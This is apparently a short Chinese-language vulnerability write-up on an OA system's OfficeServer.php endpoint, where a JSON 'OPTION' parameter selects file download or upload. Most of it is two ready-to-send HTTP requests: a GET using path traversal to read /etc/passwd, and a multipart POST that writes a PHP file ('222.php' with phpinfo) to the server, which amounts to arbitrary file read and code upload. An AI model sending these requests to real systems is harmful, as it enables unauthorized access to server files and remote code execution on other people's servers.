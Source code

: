 ![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6W1y7A3kgZicic9Ffia6mPFPayUJliaL7hZOMGIHwwl5x1ZaicOnicJqwNYIVQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
代码很短，可以很轻松读懂，获取一个json值，然后获取他的OPTION值满足他的switch值就可以进入到上传的逻辑，可以进行文件下载，也可以进行上传  
  
经过测试，可控  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6W7Kks4087h9OD7eic0kobXgeGFCPW3iczibc6cydctq3dia7EmL3HtqnjCg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6WoNNgsP5DujhiaaibumWTBqInnJUsiauUzlVkGlkuDp4Z18ZEc4rlaDU9g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
接着就是构造下载包和上传包了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6Wh56hHxFpibVMcgW0ZIjPNia1hEnH7vgHl142geibicNqFG6hdmKgNNGBYw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
```
GET /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22LOADFILE%22,%22FILEPATH%22:%22/../../../../../../../../../../../etc/passwd%22} HTTP/1.1
Host: xxxx
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://oa1.shuidinet.com/index.php/oa/main/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EEDM9NXhOXRX678gK46uZTgCYwfSnM6Wes8zhYyibJQC3GLw6krvxkqjxDficCoZHLibjwHwBusKcQshBXpxT8Ojg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
```
POST /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22SAVEFILE%22,"FILEPATH":"/222.php"} HTTP/1.1
Host: xxxx
Content-Length: 202
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="FileData"; filename="222.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryQayVsySyhSwgpmLk--

```  
  